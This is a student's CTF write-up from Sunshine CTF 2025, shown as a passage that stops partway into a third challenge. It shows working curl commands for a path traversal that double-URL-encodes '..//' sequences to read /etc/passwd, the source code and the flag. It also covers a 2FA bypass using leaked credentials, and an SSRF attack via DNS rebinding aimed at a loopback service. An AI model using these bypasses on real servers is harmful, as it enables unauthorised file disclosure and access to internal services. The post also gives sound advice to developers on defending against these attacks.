This fall, as part of the DukeSec club, I participated in the 2025
[Sunshine CTF](https://sunshinectf.org/). CTFs (aka Capture the Flag) are a
competition where participants are faced with a set of cybersecurity challenges,
in which they try to "hack" the system and gain access to sensitive knowledge
(the flag). Our team placed 59th overall out of over 1,000 teams. With the
conclusion of the competition, I'll be sharing my solutions, thought process,
and key takeaways.



# Table of Contents

1. [Lunar File Invasion (WEB)](#lunar-file-invasion)
1. [Intergalatic Webhook Service (WEB)](#intergalatic-webhook-service)
1. [Space is My Banner (PWN)](#space-is-my-banner)
1. [Space Is Less Than Ideal (PWN)](#space-is-less-than-ideal)
1. [Can you hEAR me? (PEGASUS)](#can-you-hear-me)
1. [Lunar Shop (WEB)](#lunar-shop)
1. [Intergalatic Copyright Infringement (FORENSICS)](#intergalatic-copyright-infringement)

Click on one of the above links to read about a specific solution. Don't know
where to start? Just start reading down to see them all.

# Lunar File Invasion

<p>
  <small>_[↩ Jump to table of contents](#table-of-contents)_</small>
</p>

> We recently started a new CMS, we've had issues with random bots scraping our
> pages but found a solution with robots! Anyways, besides that there are no new
> bug fixes. Enjoy our product!
>
> Fuzzing is NOT allowed for this challenge, doing so will lead to IP rate
> limiting!
>
> https://asteroid.sunshinectf.games

The homepage of this site really gives you nothing:


Based off the challenge description, it hints us towards checking the
`robots.txt` file. A file used by scrapers (like Google) to determine what pages
it can and cannot visit.

```
❯ curl https://asteroid.sunshinectf.games/robots.txt
# don't need web scrapers scraping these sensitive files:

Disallow: /.gitignore_test
Disallow: /login
Disallow: /admin/dashboard
Disallow: /2FA
```

Great! Now we have a few pages we can check out. The login form seems like your
typical login page, and the dashboard is inaccessible without authentication.
But, there's this `.gitignore_test` file. Let's check that out.

```
❯ curl https://asteroid.sunshinectf.games/.gitignore_test
# this tells the git CLI to ignore these files so they're not pushed to the repos by mistake.
# this is because Muhammad noticed there were temporary files being stored on the disk when being edited
# something about EMACs.

# From MUHAMMAD: please make sure to name this .gitignore or it will not work !!!!

# static files are stored in the /static directory.
/index/static/login.html~
/index/static/index.html~
/index/static/error.html~
```

I think our boy Muhammad might've forgotten to rename this file. This gives us
even more pointers! Many text editors leave out "swap" files which contain your
latest changes, even without you hitting save. This exists so that if your PC
crashes or you lose power, your edits can still be recovered by reading the swap
file. Let's take a look at one of these files:

```html
❯ curl "https://asteroid.sunshinectf.games/index/static/login.html~"
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Admin Panel</title>
  </head>
  <body>
    <div>
      
      <form action="{{url_for('index.login')}}" method="POST">
        <!-- TODO: use proper clean CSS stylesheets bruh -->
        <p style="color: red;">{{ err_msg }}</p>
        <input type="hidden" name="csrf_token" value="{{ csrf_token() }}" />
        <label for="Email">Email</label>
        <input value="admin@lunarfiles.muhammadali" type="text" name="email" />

        <label for="Password">Password</label>
        <!-- just to save time while developing, make sure to remove this in prod !  -->
        <input value="jEJ&(32)DMC<!*###" type="text" name="password" />
        <button type="submit">Login</button>
      </form>
    </div>
  </body>
</html>
```

And we get back valid HTML. If you look closely at the `input` fields for the
login form, you can see prefilled `value=` parameters:

```html
<input value="admin@lunarfiles.muhammadali" type="text" name="email" />
<input value="jEJ&(32)DMC<!*###" type="text" name="password" />
```

Inputting this into the login form we found earlier results in being redirected
to the 2FA page.


Looking around the HTML for this code, I don't immediately see any
vulnerabilities. But what if we can bypass this 2FA page? Remember the earlier
`robots.txt` file contained an `/admin/dashboard` route. If we visit this, we
get access the dashboard, even without entering valid 2FA credentials. Seems
like they forgot to enforce the 2FA page they created.

On this dashboard, we can visit the files page where we see a list of files in a
platform somewhat resembling Google Drive or other cloud storage solutions. With
inspect element, we can take a peek at how the page loads each file when we
click it.



It makes a request to
`https://asteroid.sunshinectf.games/admin/download/secret2.txt` where
`secret2.txt` is the name of the file.

The next order of business is to attempt an escape, getting access to files
outside the current directory. If we pass in `/admin/download/../secret2.txt` to
curl to make a request, curl thinks you intend to view `/admin/secrets2.txt` and
normalizes the path for you. In our case, we don't want this, so we'll use the
`--path-as-is` argument to tell curl to leave our URL as-is.

Let's try to see if we can read a common Linux file like `/etc/passwd`. Since we
don't know how deep into subfolders we are, let's just be safe and add in a good
number of `../`'s to be confident we can traverse all the way to the filesystem
root.

```html
❯ curl -b 'session=session_cookie_here' --path-as-is
https://asteroid.sunshinectf.games/admin/download/../../../../../../../../../../../etc/passwd
<html>
  <head>
    <title>400 Bad Request</title>
  </head>
  <body>
    <center><h1>400 Bad Request</h1></center>
    <hr />
    <center>nginx/1.24.0 (Ubuntu)</center>
  </body>
</html>
```

Ok, we got a NGINX error. NGINX is a popular reverse-proxy, sitting in front of
application servers to handle load-balancing or other features. Getting this
error means that our request isn't even reaching the backend server. A bit of
digging later, and NGINX also comes with this same path-normalization feature
enabled by default. But unlike with curl, we can't simply pass a flag to tell it
not to. We need to be a bit creative.

> The matching is performed against a normalized URI, after decoding the text
> encoded in the “%XX” form, resolving references to relative path components
> “.” and “..”, and possible compression of two or more adjacent slashes into a
> single slash.
>
> [from nginx documentation](https://nginx.org/en/docs/http/ngx_http_core_module.html)

Seems like NGINX will automatically normalize paths not only in the raw `../`
form, but will also decode any URL-encoded segments. This means we can't simply
URL-encode the path to bypass this:

```html
~ ❯ echo "../../../../../../../../../../../etc/passwd" | jq -Rr @uri
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd ~ ❯ curl -b
'session=session_cookie' --path-as-is
https://asteroid.sunshinectf.games/admin/download/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
<html>
  <head>
    <title>400 Bad Request</title>
  </head>
  <body>
    <center><h1>400 Bad Request</h1></center>
    <hr />
    <center>nginx/1.24.0 (Ubuntu)</center>
  </body>
</html>
```

As you can see, the URL-encoded version results in the same NGINX error. Based
off the documentation excerpt though, it seems like NGINX will only decode once.
So, what if we URL encode our path twice?

```html
~ ❯ echo "../../../../../../../../../../../etc/passwd" | jq -Rr @uri | jq -Rr
@uri
..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd
~ ❯ curl -b 'session=session_cookie' --path-as-is
https://asteroid.sunshinectf.games/admin/download/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd
<!doctype html>
<html lang="en">
  <title>Redirecting...</title>
  <h1>Redirecting...</h1>
  <p>
    You should be redirected automatically to the target URL:
    <a
      href="/admin/lunar_files?err_msg=%5B+Succession+of+&#39;../../&#39;+detected,+forbidden+%5D"
      >/admin/lunar_files?err_msg=%5B+Succession+of+&#39;../../&#39;+detected,+forbidden+%5D</a
    >. If not, click the link.
  </p>
</html>
```

Another error, but this time it's not NGINX! That means we are now talking
directly to the application server. No middleman blocking our requests. In the
response, there's an
`err_msg=%5B+Succession+of+&#39;../../&#39;+detected,+forbidden+%5D`, which when
URL-decoded becomes:

> "Succession of '../../' detected, forbidden"

So, it seems that the server has a check to find `../../` and deny any requests
with it. Based off the wording though, this is probably just a very simple
`path.includes('../../')` check. So, instead of using `../` we can change to
`..//`. With UNIX path's, you can add as many `/` as you want without it
impacting the path. `../ = ..// = ../// = ..////` and so on.

```
~
❯ echo "..//..//..//..//..//..//..//..//..//..//..//etc/passwd" | jq -Rr @uri | jq -Rr @uri
..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252Fetc%252Fpasswd

~
❯ curl -b 'session=session_cookie' --path-as-is https://asteroid.sunshinectf.games/admin/download/..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252Fetc%252Fpasswd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
unprivileged:x:999:999::/home/unprivileged:/bin/bash
```

And there it is! The `/etc/passwd` file of the application server.
Unfortunately, the flag isn't located in here, but at least we know we have a
working path traversal exploit.

From here, it's all about figuring out where this flag file is. From the passwd
file, I saw there was an `unprivileged` user with home directory of
`/home/unprivileged` (see last line of output). Using the exploit, I tried a
bunch of different paths:

- `/home/unprivileged/flag.txt`
- `/home/unprivileged/flag`
- `/home/unprivileged/.bash_history`

All these searches yielded nothing. Let's visit the website once again to see if
we can find any more details. After inspecting the file list page, I noticed the
following comment:

```js
[...]
  function fetchFileContent(filename) {
    // no need ot URLEncode this is JS argument being pssed in,
    // plug we already URLencoded via flask's | urlencode
    const viewUrl = `/admin/download/${filename}`;
[...]
```

Flask is a popular web framework (or more formally, a WSGI) for python. With the
knowledge that the server runs python, we can try and search all the directories
for an `app.py` file, since that is typically what python dev's like to name
their server entrypoint. Through the magic of the copy+paste command, I created
the following script:

```sh
curl -b 'session=session_cookie' --path-as-is 'https://asteroid.sunshinectf.games/admin/download/..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252Fapp.py'
curl -b 'session=session_cookie' --path-as-is 'https://asteroid.sunshinectf.games/admin/download/..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252Fapp.py'
curl -b 'session=session_cookie' --path-as-is 'https://asteroid.sunshinectf.games/admin/download/..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252Fapp.py'
curl -b 'session=session_cookie' --path-as-is 'https://asteroid.sunshinectf.games/admin/download/..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252Fapp.py'
curl -b 'session=session_cookie' --path-as-is 'https://asteroid.sunshinectf.games/admin/download/..%252F%252F..%252F%252F..%252F%252F..%252F%252F..%252F%252Fapp.py'
curl -b 'session=session_cookie' --path-as-is 'https://asteroid.sunshinectf.games/admin/download/..%252F%252F..%252F%252F..%252F%252F..%252F%252Fapp.py'
curl -b 'session=session_cookie' --path-as-is 'https://asteroid.sunshinectf.games/admin/download/..%252F%252F..%252F%252F..%252F%252Fapp.py'
curl -b 'session=session_cookie' --path-as-is 'https://asteroid.sunshinectf.games/admin/download/..%252F%252F..%252F%252Fapp.py'
curl -b 'session=session_cookie' --path-as-is 'https://asteroid.sunshinectf.games/admin/download/..%252F%252Fapp.py'
```

All this script does is brute force different numbers of `..//app.py` files.
Running it yields:

```py
❯ ./test.sh
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/admin/lunar_files?err_msg=%5B+Resource+Does+not+Exist!+%5D">/admin/lunar_files?err_msg=%5B+Resource+Does+not+Exist!+%5D</a>. If not, click the link.
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/admin/lunar_files?err_msg=%5B+Resource+Does+not+Exist!+%5D">/admin/lunar_files?err_msg=%5B+Resource+Does+not+Exist!+%5D</a>. If not, click the link.
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/admin/lunar_files?err_msg=%5B+Resource+Does+not+Exist!+%5D">/admin/lunar_files?err_msg=%5B+Resource+Does+not+Exist!+%5D</a>. If not, click the link.
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/admin/lunar_files?err_msg=%5B+Resource+Does+not+Exist!+%5D">/admin/lunar_files?err_msg=%5B+Resource+Does+not+Exist!+%5D</a>. If not, click the link.
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/admin/lunar_files?err_msg=%5B+Resource+Does+not+Exist!+%5D">/admin/lunar_files?err_msg=%5B+Resource+Does+not+Exist!+%5D</a>. If not, click the link.
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/admin/lunar_files?err_msg=%5B+Resource+Does+not+Exist!+%5D">/admin/lunar_files?err_msg=%5B+Resource+Does+not+Exist!+%5D</a>. If not, click the link.
import os

with open("./FLAG/flag.txt", "r") as f:
    FLAG = f.read()

from flask import *
from flask_login import (
    LoginManager,
    login_user,
    login_required,
    logout_user,
    current_user,
)
from flask_wtf.csrf import CSRFError

# blueprint stuff:
from models import *
from admin import admin_blueprint
from index import index_blueprint
# ^^ this is what I meant by:
# "the dir is"
# treated as a package in a sense.

# global
from extensions import *


# clean up the login page and make it functional then we can start piecing together the LFI dashboard
# functionality too

# Initializing the app-specific stuff:
app = Flask(__name__)

# registering the blueprint
app.register_blueprint(admin_blueprint, url_prefix="/admin")
app.register_blueprint(index_blueprint, url_prefix="/")
# app.static_folder = 'global_static'

app.config["SECRET_KEY"] = os.urandom(64).hex()
bcrypt_object.init_app(app)

# since we're directly pass in the app object we can directly use it in our templates with JINJA2 syntax
csrf.init_app(app)

# I know for a fact ppl will try to bruteforce the pin which is millions of requests,
# we're stopping that before it begins with the default rate-limit being set to 5 requests/second.

# TODO: remove this, just use NGINX, kills 2 birds with 1 stone bcs we can also config passwd for kev's test instance.

# Initialize Flask-Login
login_manager = LoginManager()
login_manager.init_app(app)
login_manager.login_view = (
    "index.login"  # Redirect to admin login page if not logged in
)
# the way this works is it checks if current_user.is_authenticated is set to True, this value is retrieved from
# the load_user() function (so it's called everytime implicitly on routes that have the @login_required() decorator


@login_manager.user_loader
def load_user(user_id):
    return session.query(User).get(user_id)


################################################################


# Wrapper for Error handling any invalid CSRF tokens.
@app.errorhandler(CSRFError)
def handle_csrf_error(error):
    return render_template(
        "error.html",
        err_msg=f"[ Invalid CSRF Token, if this persists please enable JavaScript. ]",
    ), 400


################################################################
def create_app():
    return app


if __name__ == "__main__":
    app = create_app()
    app.run(host="0.0.0.0", port=8000, debug=False)
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/admin/lunar_files?err_msg=%5B+Resource+Does+not+Exist!+%5D">/admin/lunar_files?err_msg=%5B+Resource+Does+not+Exist!+%5D</a>. If not, click the link.
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/admin/lunar_files?err_msg=%5B+Resource+Does+not+Exist!+%5D">/admin/lunar_files?err_msg=%5B+Resource+Does+not+Exist!+%5D</a>. If not, click the link.
```

So, the 3rd command from the bottom got us an actual python file! That means
that the python file is located at `..%252F%252F..%252F%252F..%252F%252Fapp.py`
or, decoded, `../../../app.py`.

Looking at the code, we can see the flag gets loaded from `./FLAG/flag.txt`.

```py
with open("./FLAG/flag.txt", "r") as f:
    FLAG = f.read()
```

So, combining the path of the script and the relative path of the flag, we get:
`../../../FLAG/flag.txt`. Let's double up the slashes and URL-encode it twice to
get past all the blocks:

```
~
❯ echo "..//..//..//FLAG/flag.txt" | jq -Rr @uri | jq -Rr @uri
..%252F%252F..%252F%252F..%252F%252FFLAG%252Fflag.txt

~
❯ curl -b 'session=session_cookie' --path-as-is https://asteroid.sunshinectf.games/admin/download/..%252F%252F..%252F%252F..%252F%252FFLAG%252Fflag.txt
sun{lfi_blacklists_ar3_sOo0o_2O16_8373uhdjehdugyedy89eudioje}
```

And there's the flag!

**So, to developers:**

Avoid letting user's input parts of your filesystem paths whenever possible,
only use trusted data. If you absolutely must, do not rely on simple sanitation
or validation methods like checking for `../` as your only line of defense. In
python, the `pathlib` library has many utilities to ensure a provided path is
under a desired safe directory, throwing an error if the resolved path ends up
being a higher level directory. Similarly, Node.JS provides provides the `path`
library to aide with safe path manipulation.

# Intergalatic Webhook Service

<p>
  <small>_[↩ Jump to table of contents](#table-of-contents)_</small>
</p>

> I got tired of creating webhooks from online sites, so I made my own webhook
> service! It even works in outer space! Be sure to check it out and let me know
> what you think. I'm sure it is the most secure webhook service in the
> universe.
>
> https://supernova.sunshinectf.games/
>
> Attachments: src.zip

A server is a privileged resource, often connected to private networks with
database servers and internal microservices. If an application server ever needs
to make arbitrary requests, it's integral to check where that request is going
to ensure the user can't access internal services.

This challenge provided the source to the server (`src.zip`), which is not
atypical as many applications nowadays are open-source, with code available on
platforms like GitHub or Gitlab.

The first thing that jumped out in the server code (`/src/app.py`) is where the
flag is located:

```py
def load_flag():
    with open('flag.txt', 'r') as f:
        return f.read().strip()

FLAG = load_flag()

class FlagHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path == '/flag':
            self.send_response(200)
            self.send_header('Content-Type', 'text/plain')
            self.end_headers()
            self.wfile.write(FLAG.encode())
        else:
            self.send_response(404)
            self.end_headers()

threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()
```

In this snippet, the server starts a new thread which creates it's own HTTP
server (`HTTPServer(('127.0.0.1', 5001), FlagHandler)`) on port `5001` with
handler defined as `FlagHandler`. This server is very simple, waiting for
requests with path `/flag` and sending the flag back. This server is bound on
the loopback address (`127.0.0.1`), so normally it cannot be access from outside
the server, mimicking a typical private resource.

**So, now we know the goal: try to exfiltrate the flag from
`http://127.0.0.1:5001/flag`.**

The question is, how can we do that? Let's first understand what this service
is. The challenge name and description state this is a "webhook" service.
Webhooks are a way for applications to notify each other and send messages.

Take payment for example, when you purchase a good using PayPal, somehow the
shop you are purchasing it from needs to know when you have finished paying via
PayPal. This can be achieved using a webhook. Once PayPal confirms your payment
was successful, it can send a notification to the shop's server through a
webhook. Something like: `POST myshop.com/api/payment-successful` with data
about the purchaser.

In this CTF problem, the webhook service allows you to specify a target URL and
a name. The name isn't very useful for our purposes, but setting a target URL
is. Imagine we set it to `http://127.0.0.1:5001/flag`. Now, whenever we make the
webhook request, the server will request that loopback URL and voila, we can get
our hands on that flag data.

Unfortunately though, it seems as the developers have already thought of that!
If we attempt this, we get an error: `IP "127.0.0.1" not allowed`. Let's dive
into how this works on the server code:

```py
def is_ip_allowed(url):
    parsed = urlparse(url)
    host = parsed.hostname or ''
    try:
        ip = socket.gethostbyname(host)
    except Exception:
        return False, f'Could not resolve host'
    ip_obj = ipaddress.ip_address(ip)
    if ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local or ip_obj.is_reserved:
        return False, f'IP "{ip}" not allowed'
    return True, None

@app.route('/trigger', methods=['POST'])
def trigger_webhook():
    [...]

    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return jsonify({'error': reason}), 400
    try:
        resp = requests.post(url, timeout=5, allow_redirects=False)
        return jsonify({'url': url, 'status': resp.status_code, 'response': resp.text}), resp.status_code
    except Exception:
        return jsonify({'url': url, 'error': 'something went wrong'}), 500
```

Whenever we make a request, the server passes the URL through the
`is_ip_allowed` function. This function checks if the IP is private, loopback,
link-local, or reserved. Basically, only allowing IPs that are public, which
does not include `127.0.0.1`. The code here seems robust as well, using existing
python utilities for resolving and checking the IP.

After passing this check, all future code assumes the IP is good and makes the
request using the original URL provided. Sounds good right? Well, that's exactly
where the problem is. This is a classic **time of check vs time of use attack**.

Imagine a scenario where we give it a domain we control, lets call it
`attacker.com`. We'll make the domain first point to some real public IP--lets
say `1.1.1.1`. The `is_ip_allowed(...)` function runs, resolves the domain, and
finds the `1.1.1.1` IP. This passes the check.

Now, immediately after, we'll change the domain to point to `127.0.0.1`. Since
no other parts of the code check the IP again, the `requests.post(...)` line
will happily request `127.0.0.1` and send us back that data.

We don't have to imagine this scenario, because this is very possible using a
service like [rbndr](https://github.com/taviso/rbndr). This app randomly sends
back one of two IP addresses, so by defining a domain that randomly responds
with `127.0.0.1` or `1.1.1.1`, if lucky, we can pull off this attack exactly
like described above.

**So, how can you prevent a vulnerability like this?**

Instead of passing the original user's URL into the `requests` function, the
resolved IP address should be stored and used instead. This way, you are
absolutely sure that the same validated IP will be the one that your server
reaches out to. To ensure proper routing, the HTTP `Host` header should be set
to the hostname of the user's URL.

Furthermore, consider proxying all outbound requests through another server or a
VPN provider to prevent leaking your server's IP, especially if your app is
behind a WAF like Cloudflare.

# Space is My Banner

<p>
  <small>_[↩ Jump to table of contents](#table-of-contents)_</small>
</p>

> I did it again.
>
> This time I'm sure I accessed a satellite.
>
> I'm scared, it's giving me a warning message when I log in.
>
> I think this time I may have gone too far... this seems to be some top
> security stuff...
>
> `socat file:\`tty\`,raw,echo=0 TCP:chal.sunshinectf.games:25002`

This challenge doesn't provide any files, only a command to access the
satellite's terminal. Executing the `socat` command, we are presented with a
menu:



Pressing "I am hacker" presents an access denied screen and kicks you out.
Clicking "I am not a hacker" shows a popup saying "Hacking has now been
DISABLED!" This page gives a major hint too: "It was different BEFORE, but NOW
you cannot hack this system."

So, there's likely something between those two menus that changed. Let's dive
deeper.

Scrolling through the TUI's elements, there's a section labeled "Sweet Tmux
Configs", which, like the name suggests, displays the tmux configs used in this
app.



Tmux is a terminal multiplexer. It allows you to run multiple shells in one
terminal window, and jump between them. Think of it like an "alt-tab" system for
a terminal.

When in the "Sweet Tmux Configs" menu, the server provides three config files:

- Hacking TMUX: this must be for the "I am a hacker" menu previously discovered.
- Default TMUX: the config used when you initially access the spaceship.
- Secure Satellite TMUX: used when you hit "I am not a hacker" and are dropped
  into the "secure" menu.

Looking through the configs, there's one line noticeably missing from the
default and hacking TMUX config:

```diff
- unbind-key -a
```

In tmux, `unbind-key -a` unbinds all default keyboard shortcuts. By default,
commands like `Ctrl + b c` launch a new shell. Without this line, all default
commands are enabled.

So, let's test this out. If we exit and re-establish the connection (and thus
are now back to the default tmux config), we can try out some tmux shortcuts. If
we press `Ctrl + b c`, the window flashes for a second, before presenting the
menu again. If we press `Ctrl + b t`, we get the default tmux clock.

